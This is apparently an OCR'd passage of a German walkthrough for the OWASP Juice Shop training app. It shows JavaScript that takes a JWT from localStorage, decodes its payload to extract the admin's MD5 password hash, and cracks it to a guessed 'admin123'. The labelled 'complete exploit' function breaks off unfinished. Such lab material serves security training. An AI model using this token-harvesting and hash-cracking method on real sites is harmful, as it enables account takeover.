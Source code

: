 ### 🔍 Schritt 2: JWT Token dekodieren

```javascript
// JWT besteht aus 3 Teilen: Header.Payload.Signature
const parts = token.split('.');
const payload = parts[1];

// Base64 dekodieren
const decodedPayload = atob(payload);
console.log('Decoded Payload:', decodedPayload);

// Als JSON parsen
const tokenData = JSON.parse(decodedPayload);
console.log('Token Data:', tokenData);
```

### 🔍 Schritt 3: Admin-Informationen extrahieren

```javascript
// Suche nach Admin-relevanten Daten im Token
console.log('User Data:', tokenData.data);

// Oft enthält der Token Informationen über alle User oder Admin-Hashes
// Beispiel für typische Token-Struktur:
/*
{
  "data": {
    "id": 1,
    "username": "admin",
    "email": "admin@juice-sh.op",
    "password": "0192023a7bbd73250516f069df18b500", // MD5 Hash
    "role": "admin"
  }
}
*/
```

### 🔍 Schritt 4: MD5-Hash cracken

```javascript
// Gefundener MD5 Hash (Beispiel)
const adminHash = "0192023a7bbd73250516f069df18b500";
console.log('Admin MD5 Hash:', adminHash);

// Online MD5 Decoder verwenden oder lokale Tools:
// Hash entspricht oft: "admin123"
```

### 🛠️ Kompletter Exploit-Code

```javascript
// Vollständiger Workflow
function extractAdminPassword() {
    // 1. Token holen
    const token = localStorage.getItem('token');
    if (!token) {
        console.log('❌ Kein Token gefunden - erst einloggen!');
        return;
    }
    
    try {
        // 2. JWT dekodieren
        const parts = token.split('.');
        const payload = JSON.parse(atob(parts[1]));
        
```
